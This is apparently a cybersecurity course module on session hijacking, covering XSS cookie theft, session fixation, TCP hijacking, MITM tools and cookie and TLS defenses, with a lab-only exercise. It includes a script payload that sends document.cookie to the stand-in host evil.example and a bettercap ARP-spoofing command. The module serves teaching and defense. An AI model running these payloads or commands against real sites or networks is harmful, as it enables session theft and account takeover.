




# Session Hijacking

> What you'll learn: how attackers steal or take over an active login session, the application-level and network-level techniques they use, the tools involved, and how defenders stop them with secure cookies and TLS.
> Prerequisites: basic understanding of HTTP requests/responses, what a cookie is, TCP/IP fundamentals, and (helpful) prior exposure to XSS and sniffing concepts.

| Course | Course code | Module | Level |
|--------|-------------|--------|-------|
| Skillogic CSPP – Professional Level 2 | SKL-CSP2-711 | Module 03 – Session Hijacking | level2 |

---

> 📺 **Watch — top video on this topic:** [](https://www.youtube.com/watch?v=uhiISdVr6k8) [Session Hijacking Explained In Cyber Security](https://www.youtube.com/watch?v=uhiISdVr6k8)

---

## 1. In Plain English 🎟️

Picture a members-only club. The bouncer checks your ID once at the door, then hands you a wristband. For the rest of the night you never show ID again — you just flash the band. Convenient, but dangerous: **whoever wears it gets in**. Slip it off your wrist or copy it, and someone walks in as "you."

On the web, that wristband is your **session**, and the data representing it is your **session token** (session ID). When you log in, the server checks your password *once*, then issues a token your browser sends with every later request. **Session hijacking** is stealing or forging that token so the server treats the attacker as you.

> 🔑 **Key idea:** Session hijacking sidesteps the password entirely. The attacker doesn't crack your 20-character passphrase or your MFA code — they just take the wristband you're already wearing. That's what makes it one of the most practical and dangerous web attacks.

This note covers two families of the attack:

- **Application-level hijacking** — stealing the token via web flaws (XSS) or tricking the app (session fixation).
- **Network-level hijacking** — grabbing the token off the wire by attacking the TCP connection itself.

We finish with the defenses — secure cookies and TLS — that take the magic wristband off the table.



---

## 2. Core Concepts 🧠

### What is a session?

HTTP is **stateless** — each request is independent and carries no memory of the previous one. By itself, HTTP can't tell that the request loading your inbox came from the same person who just logged in. To fix this, web apps create a **session**: a server-side record (identity, permissions, shopping cart) that persists across many requests. To link each request to that record, the server gives the browser a **session identifier**.

### Session token / session ID

A **session token** is a string — ideally long and random, e.g. `JSESSIONID=9F8A...3C` — that points to your session record on the server. It usually lives in a **cookie**: data the server sets via the `Set-Cookie` header, which the browser then auto-attaches to every future request to that site. Tokens can also ride in a URL parameter or custom header, but cookies are the norm.

> ⚠️ **Warning:** The token is a **bearer credential** — possession equals authority. Anyone holding a valid, unexpired token is treated as the authenticated user. This is the whole reason session hijacking works.

### Session hijacking

**Session hijacking** is obtaining a valid session token (or otherwise taking control of an established session) so the attacker can impersonate the user *without* their password. The attacker "rides" an already-authenticated connection. There are two broad categories.

### Application-level hijacking

The attacker targets the web app and the browser to **steal or manipulate the token**:

| Technique | What happens | Beginner note |
|-----------|--------------|---------------|
| 🪲 **XSS token theft** | Attacker injects malicious JavaScript into a page; the victim's browser runs it and ships the cookie out | XSS = injecting attacker JS that runs in a victim's browser |
| 📡 **Session sniffing** | Token captured as it travels over an unencrypted channel | See network-level section |
| 📌 **Session fixation** | Attacker *sets* a token for you **before** login, then reuses that known token | No theft needed — they plant the band first |
| 🎲 **Session prediction / brute force** | Short or weakly generated tokens (sequential numbers, timestamps) get guessed | Defeated by long, random tokens |

#### Session fixation in detail

In **session fixation**, the attacker first grabs a valid but not-yet-authenticated session ID (e.g. by visiting the site). They trick the victim into using *that same* ID, often via a crafted link like `https://bank.example/login?SESSIONID=ATTACKER_KNOWN_VALUE`. The victim logs in with real credentials, and a poorly built app keeps the **same** ID and just marks it "authenticated." The attacker already knows that ID — so they're now logged in as the victim.

> 💡 **Tip:** The fix is simple in principle — **always issue a brand-new session ID at login** (session regeneration).



### Network-level hijacking

The attacker works lower down the stack, attacking the **transport** rather than the app. The token (or whole session) is captured or controlled at the TCP/IP level.

- **TCP session hijacking** — Every TCP connection is tracked with **sequence numbers** (counters that order bytes in a stream). An attacker who can see the traffic (same LAN/Wi-Fi) and learn the current sequence numbers can inject packets the server accepts as part of the legitimate connection — taking it over. This may involve **desynchronizing** the real client so it falls out of sync.
- **Blind hijacking** — A harder variant where the attacker **cannot see** the traffic and must *guess* the sequence numbers to inject valid packets "blind." Modern OSes randomize initial sequence numbers, making this much harder than it once was.
- **Man-in-the-Middle (MITM)** — The attacker positions between client and server (ARP spoofing, rogue Wi-Fi AP, DNS spoofing) so all traffic flows through them, letting them read tokens on unencrypted connections.

### Why TLS changes everything

**TLS (Transport Layer Security)** — the encryption behind HTTPS — encrypts traffic between browser and server. On a properly configured HTTPS site, a sniffer sees only ciphertext, not the cookie. This neutralizes most network-level theft and sniffing.

> ⚠️ **Warning:** TLS does **not** stop application-level attacks like XSS, because that malicious code runs *inside* the victim's trusted browser — after decryption.

---

## 3. How It Works (Step by Step) ⚙️

Let's walk through a classic **application-level hijack using XSS-based token theft** — the most common real-world scenario.

1. **Victim logs in.** The server issues a session cookie, e.g. `Set-Cookie: SESSIONID=abc123`. The browser stores it.
2. **Attacker finds an XSS hole.** A comment field renders user input without sanitizing it. The attacker posts a comment containing JS such as `<script>new Image().src='https://evil.example/c?'+document.cookie</script>`.
3. **Victim views the malicious content.** Loading the page runs the attacker's script in the context of `app.example`.
4. **The script reads the cookie.** Because the cookie lacks the `HttpOnly` flag, `document.cookie` exposes `SESSIONID=abc123`.
5. **The token is exfiltrated.** The script silently sends the value to `evil.example` (disguised as an image request).
6. **Attacker replays the token.** They set `SESSIONID=abc123` in their own browser/tool and request a protected page. The server sees a valid token and serves the victim's account — no password.
7. **Detection / defense kicks in (or should).** Server-side anomaly checks (new IP, new device fingerprint, impossible travel) can flag the reuse and force re-authentication.

```mermaid
sequenceDiagram
    participant V as Victim Browser
    participant S as App Server
    participant A as Attacker
    V->>S: 1. Login (username/password)
    S-->>V: 2. Set-Cookie: SESSIONID=abc123
    A->>S: 3. Inject XSS payload (e.g. in a comment)
    V->>S: 4. Loads page containing payload
    S-->>V: 5. Page + malicious script
    Note over V: 6. Script runs, reads document.cookie
    V->>A: 7. Exfiltrate SESSIONID=abc123
    A->>S: 8. Replay request with stolen cookie
    S-->>A: 9. Serves victim account (hijacked)
    Note over S: HttpOnly blocks step 6; anomaly detection flags step 8
```

> 🖼️ *Suggested image: annotated browser DevTools showing a session cookie with HttpOnly unchecked vs checked.*

---

## 4. Real-World Examples 📰

| Case | What happened | Lesson |
|------|---------------|--------|
| 🐑 **Firesheep (2010)** | Firefox extension that sniffed unencrypted session cookies on open Wi-Fi; sites used HTTPS only for the login page then dropped to plain HTTP, so anyone could one-click hijack logged-in sessions | Pushed the industry toward **HTTPS everywhere** — encrypt the whole session, not just login |
| 📌 **Session fixation flaws** | Apps (catalogued by OWASP) accept a user-supplied session ID and reuse it after login; attackers pin a known ID onto the victim | Regenerate the session ID on privilege change; legacy/custom apps still fail this in pentests |
| 🪲 **XSS-driven cookie theft** | Many bug-bounty findings: an input renders attacker markup, the cookie lacks `HttpOnly`, a one-line script ships the token off-site | Why XSS and session hijacking are taught together — XSS is the delivery mechanism |

> 💡 **Tip:** The Firesheep saga is the cleanest illustration of why "secure the login form" is not the same as "secure the session." The wristband must be protected for the whole night, not just at the door.

---

## 5. Tools of the Trade 🧰

> ⚠️ **Warning:** All tools below are for use on systems you own or are explicitly authorized to test.

| Tool | Type | Primary use in this topic |
|------|------|---------------------------|
| 🦈 **Wireshark** | Packet analyzer | Observe cookies/tokens on unencrypted traffic; study TCP sequence numbers |
| 🧪 **Burp Suite** | Intercepting web proxy | Inspect, modify, replay requests; audit cookie flags; test token reuse |
| 🕸️ **ettercap / bettercap** | MITM framework | ARP-spoof LAN traffic through the attacker to demo network interception |
| 🔍 **Browser DevTools** | Built-in inspector | Quickly audit `HttpOnly` / `Secure` / `SameSite` flags on a cookie |

### Wireshark

A network protocol analyzer that captures and inspects packets.

```bash
# Capture traffic on interface eth0, filter to HTTP only
wireshark -i eth0 -k -f "tcp port 80"
```
Launches a live capture limited to TCP port 80; apply a display filter like `http.cookie` to spot session tokens in cleartext requests. On an HTTPS site you'd see only encrypted bytes — proof that TLS defeats sniffing.

### Burp Suite

An intercepting proxy between your browser and the app, letting you inspect, modify, and replay requests.

```text
1. Configure browser proxy to 127.0.0.1:8080
2. Intercept a logged-in request in Proxy > HTTP history
3. Send to Repeater, modify or swap the session cookie value, resend
```
Confirms whether a stolen/altered token is accepted, and whether the cookie carries `Secure` / `HttpOnly`.

### ettercap / bettercap

MITM frameworks that perform ARP spoofing to redirect LAN traffic through the attacker.

```bash
# bettercap: enable ARP spoofing against a target in the lab subnet
sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.56.20; arp.spoof on; net.sniff on"
```
Poisons the target's ARP table so its traffic flows through the attacker, then sniffs it. Cleartext HTTP exposes cookies; HTTPS does not (without a separate, detectable TLS-stripping or rogue-cert step).

### Browser DevTools

The fastest way to audit whether a token is protected.

```text
DevTools > Application > Cookies > select the site
Inspect each cookie's HttpOnly, Secure, and SameSite columns
```
If `HttpOnly` is unchecked, JavaScript (and thus XSS) can read the token — a direct red flag.

> 🖼️ *Suggested image: Wireshark capture highlighting a cleartext `Cookie:` header next to an HTTPS capture showing only encrypted TLS records.*

---

## 6. Hands-On Lab (Authorized / Lab-Only) 🔬

> ⚠️ **Warning:** Perform this **only** on systems you own or are explicitly authorized to test. Never run any of this against third-party services or networks.

**Goal:** Build a small lab, demonstrate both an application-level (XSS) and a network-level (sniffing) hijack, then prove the defenses neutralize each.

**Lab setup (multi-VM or cloud sandbox):**

| VM | Role | Contents |
|----|------|----------|
| VM 1 | 🎯 Target app | Deliberately vulnerable app (OWASP Juice Shop / DVWA) in a container on an isolated host-only network |
| VM 2 | 🧑 Victim | Linux/Windows desktop running a normal browser, logged into the target app |
| VM 3 | 🥷 Attacker | Kali (or any pentest distro) with Wireshark, Burp Suite, bettercap |

Place all three on a **host-only / NAT lab network** with no route to the internet or other machines.



**Part A — Application-level (XSS token theft):**
1. On the attacker VM, stand up a tiny listener for exfiltrated data (a one-line Python HTTP server logging query strings).
2. From the victim, log into the app and confirm a session cookie exists in DevTools.
3. Find a field vulnerable to stored XSS. Craft a payload that reads `document.cookie` and sends it to your listener. (Adapt to the app's filtering — bypassing weak filters is part of the exercise.)
4. As the victim, view the page hosting your payload. Confirm the cookie reaches the listener.
5. On the attacker, replay the captured token (Burp Repeater to swap the cookie) and confirm you reach the victim's authenticated area.

**Part B — Network-level (sniffing):**
1. With the app on plain HTTP, start a Wireshark capture and run bettercap ARP spoofing against the victim.
2. Have the victim browse the app; locate the `Cookie:` header in the captured cleartext traffic.

**Validation — prove the defenses work (the most important part):**

| Defense | Action | Expected result |
|---------|--------|-----------------|
| Defeat Part A | Set the session cookie `HttpOnly`; repeat Part A | `document.cookie` no longer contains the token; payload fails |
| Defeat Part B | Enable HTTPS/TLS; re-run the sniff | Wireshark shows only encrypted TLS records; cookie invisible. Add `Secure` so it's never sent over plain HTTP |
| Defeat fixation | Regenerate the session ID on login | Pre-login ID differs from post-login ID |
| Detection | Log token source IP / user agent | Rule flags the same token from two IPs at once — the signature of replay |

> 💡 **Tip:** Capture before/after screenshots for each defense to build an evidence trail.

---

## 7. Countermeasures & Defenses 🛡️

Defense is **layered** — protect the token *in transit*, *in the browser*, and *server-side*, and watch for reuse.



**Protect the token in transit:**
- Enforce **HTTPS/TLS everywhere** (not just login) so tokens can't be sniffed.
- Add **HSTS** (HTTP Strict Transport Security) so browsers refuse plain HTTP.
- Mark cookies **`Secure`** so they're only sent over HTTPS.

**Protect the token in the browser:**
- Mark session cookies **`HttpOnly`** so JavaScript (and XSS) cannot read them.
- Set **`SameSite`** (`Lax`/`Strict`) to limit cookies on cross-site requests, reducing CSRF and some hijack vectors.
- Prevent the underlying **XSS** with output encoding, input validation, and a strong **Content-Security-Policy (CSP)**.

**Make tokens hard to steal or guess:**
- Generate tokens from a **cryptographically secure random** source; make them long (high entropy) so prediction/brute force is infeasible.
- **Regenerate the session ID on login** and on any privilege change to kill session fixation.
- Set sensible **idle and absolute timeouts**; invalidate the session server-side on logout (don't just delete the cookie).

**Detect and respond:**
- Bind sessions to contextual signals (IP range, device fingerprint, user agent) and **re-authenticate on anomalies** like impossible travel or sudden IP change.
- Log token usage and alert when the **same token is used from two locations** at once.
- Use **MFA** so a stolen session has limited blast radius and re-auth can be enforced for sensitive actions.

**Harden the network layer:**
- Use modern OSes with **randomized TCP initial sequence numbers** to thwart blind hijacking.
- On managed networks, deploy **dynamic ARP inspection / port security** to limit ARP-spoofing MITM.

### Attack → Defense quick reference

| Attack | Layer | Primary defense |
|--------|-------|-----------------|
| 🪲 XSS token theft | App / browser | `HttpOnly` cookie + XSS prevention (encoding, CSP) |
| 📌 Session fixation | App | **Regenerate session ID on login** |
| 🎲 Token prediction / brute force | App | Long, CSPRNG-generated tokens |
| 📡 Sniffing | Network | **HTTPS/TLS** + `Secure` flag |
| 🕸️ MITM (ARP/DNS spoof) | Network | TLS + dynamic ARP inspection / port security |
| 🎯 TCP / blind hijacking | Transport | TLS + randomized initial sequence numbers |
| 🔁 Token replay | Detection | Anomaly detection, reuse alerts, MFA |

---

## 8. Key Terms 📖

| Term | Meaning |
|------|---------|
| **Session** | Server-side state linking many HTTP requests to one authenticated user |
| **Session token / session ID** | The random string identifying a session; a bearer credential |
| **Cookie** | Data set by the server (`Set-Cookie`) and auto-sent by the browser; usual home of the token |
| **Session hijacking** | Taking over a valid session by stealing or controlling its token |
| **XSS (Cross-Site Scripting)** | Injecting attacker JavaScript that runs in a victim's browser; common token-theft vector |
| **Session fixation** | Forcing a victim to use an attacker-known session ID before login |
| **Sniffing** | Passively capturing network traffic to read data such as cookies |
| **TCP sequence number** | Counter ordering bytes in a TCP stream; key to network-level injection |
| **Blind hijacking** | Injecting TCP packets without seeing traffic, by guessing sequence numbers |
| **MITM (Man-in-the-Middle)** | Positioning between client and server to read/alter traffic |
| **TLS / HTTPS** | Encryption that protects traffic in transit and defeats sniffing |
| **HttpOnly** | Cookie flag blocking JavaScript access to the cookie |
| **Secure** | Cookie flag restricting the cookie to HTTPS connections only |
| **SameSite** | Cookie flag controlling whether cookies are sent on cross-site requests |
| **Session regeneration** | Issuing a new session ID after login to defeat fixation |

---

## 9. Summary & Takeaways ✅

- A session token is a **bearer credential** — whoever holds it is "you," so stealing it bypasses the password entirely.
- **Application-level hijacking** steals or manipulates the token via XSS, fixation, or weak/predictable tokens.
- **Network-level hijacking** captures or seizes the session at the TCP/IP layer through sniffing, MITM, or sequence-number injection (including blind variants).
- **TLS/HTTPS everywhere** kills most network-level theft; **HttpOnly + Secure + SameSite** cookies plus XSS prevention kill most application-level theft.
- **Regenerating the session ID on login** is the direct, decisive fix for session fixation.
- Strong, random, time-limited tokens plus anomaly detection and MFA limit damage even when a token leaks.
- Defense is layered: protect the token *in transit*, *in the browser*, and *at rest on the server*, and watch for reuse.

**Further reading:** OWASP Session Management Cheat Sheet and OWASP Testing Guide (session management / fixation); OWASP Top 10 (Identification and Authentication Failures); NIST SP 800-63B (Digital Identity / session management guidance); MITRE ATT&CK techniques for "Steal Web Session Cookie" and "Session Hijacking."
